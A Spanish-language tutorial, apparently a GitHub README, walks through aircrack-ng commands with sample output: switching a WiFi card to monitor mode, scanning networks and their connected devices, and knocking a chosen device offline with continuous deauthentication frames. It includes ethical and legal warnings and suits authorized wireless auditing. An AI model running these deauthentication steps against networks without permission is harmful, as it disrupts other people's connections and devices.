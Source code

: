 # Guía para el análisis y control de dispositivos en redes WiFi

Esta guía explica paso a paso cómo monitorear y desconectar dispositivos conectados a una red WiFi utilizando herramientas como `aircrack-ng`. **Advertencia: Este procedimiento solo debe realizarse con autorización expresa en redes propias o para auditoría ética.**

## Índice
1. [Requisitos previos](#requisitos-previos)
2. [Verificar el modo de la tarjeta de red](#verificar-el-modo-de-la-tarjeta-de-red)
3. [Cambiar la tarjeta a modo monitor](#cambiar-la-tarjeta-a-modo-monitor)
4. [Confirmar el modo monitor](#confirmar-el-modo-monitor)
5. [Escanear redes WiFi disponibles](#escanear-redes-wifi-disponibles)
6. [Monitorear una red específica](#monitorear-una-red-específica)
7. [Desconectar un dispositivo de la red](#desconectar-un-dispositivo-de-la-red)
8. [Advertencia ética y legal](#advertencia-ética-y-legal)
9. [Recursos](#recursos)

---

## Requisitos previos

- **Sistema operativo**: Linux (preferiblemente Kali Linux).
- **Tarjeta de red**: Compatible con modo monitor.
- **Herramientas instaladas**:
  - `aircrack-ng`
  - `iwconfig`
  - `airmon-ng`
  - `airodump-ng`
  - `aireplay-ng`

**Instalación en Kali Linux**:
```bash
sudo apt update && sudo apt install aircrack-ng
```

---

## Verificar el modo de la tarjeta de red

**Comando**:
```bash
iwconfig
```

**Ejemplo de salida**:
```
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Frequency:2.437 GHz  Access Point: Not-Associated
```

> **Nota**: Si el modo es `Managed`, cámbialo a `Monitor` en el siguiente paso.

---

## Cambiar la tarjeta a modo monitor

**Comando**:
```bash
sudo airmon-ng start [nombre_tarjeta]
```

**Ejemplo**:
```bash
sudo airmon-ng start wlan0
```

**Resultado esperado**:
```
Found 1 processes that could cause trouble.
Killing process with PID 1234 (NetworkManager).

Interface       Chipset         Driver
wlan0           Atheros         ath9k - [phy0]
                (monitor mode enabled on wlan0mon)
```

> **Nota**: La interfaz ahora se llamará `[nombre_tarjeta]mon`, por ejemplo, `wlan0mon`. Además el internet se va desactivar.

---

## Confirmar el modo monitor

**Comando**:
```bash
iwconfig
```

**Ejemplo de salida**:
```
wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.412 GHz  
```

> **Nota**: Confirma que el modo es `Monitor`. Si no lo es, repite el paso anterior.

---

## Escanear redes WiFi disponibles

**Comando**:
```bash
airodump-ng --band a [interfaz_monitor]
```

**Ejemplo**:
```bash
airodump-ng --band a wlan0mon
```

**Ejemplo de salida parcial**:
```
 BSSID              PWR  Beacons    CH  ENC  ESSID
 00:11:22:33:44:55  -30      102     36  WPA2 MiRedWiFi

 STATION            PWR  Rate  Lost  Frames  Probe
 66:77:88:99:AA:BB  -40  1e-1e     0     100  AmazonEcho
```

> **Nota**: Anota el `[BSSID]`, `[canal]` (CH) de la red (MAC del dispositivo conectado). Presiona `Ctrl+C` para salir.

---

## Monitorear una red específica

**Comando**:
```bash
airodump-ng --band a -c [canal] --bssid [BSSID] [interfaz_monitor]
```

**Ejemplo**:
```bash
airodump-ng --band a -c 36 --bssid 00:11:22:33:44:55 wlan0mon
```

> **Nota**: Este comando enfoca la escucha solo en la red seleccionada, mostrando los dispositivos conectados.

---

## Desconectar un dispositivo de la red

**Comando**:
```bash
aireplay-ng -0 0 -a [BSSID_red] -c [MAC_dispositivo] [interfaz_monitor]
```

**Ejemplo**:
```bash
aireplay-ng -0 0 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
```

**Explicación**:
- `-0 0`: Modo deautenticación infinita.
- `-a [BSSID_red]`: MAC del router (BSSID de la red).
- `-c [MAC_dispositivo]`: MAC del dispositivo objetivo (por ejemplo, un parlante).
- `[interfaz_monitor]`: Interfaz en modo monitor.

**Ejemplo de salida**:
```
Sending DeAuth to station -- BSSID: [00:11:22:33:44:55] STATION: [66:77:88:99:AA:BB]
DeAuth frame sent...
```

> **Nota**: Este comando fuerza la desconexión del dispositivo enviando paquetes de deautenticación.

---

## Advertencia ética y legal

El uso de estos comandos en redes o dispositivos sin consentimiento **es ilegal en muchos países** y puede tener consecuencias legales graves. Esta guía está destinada únicamente a auditorías de seguridad **con permiso explícito**. Úsala de forma responsable y ética.

---

## Recursos

- **Documentación**: [Aircrack-ng](https://www.aircrack-ng.org/)
- **Comandos relacionados**:
  - `iwconfig`
  - `airmon-ng`
  - `airodump-ng`
  - `aireplay-ng`
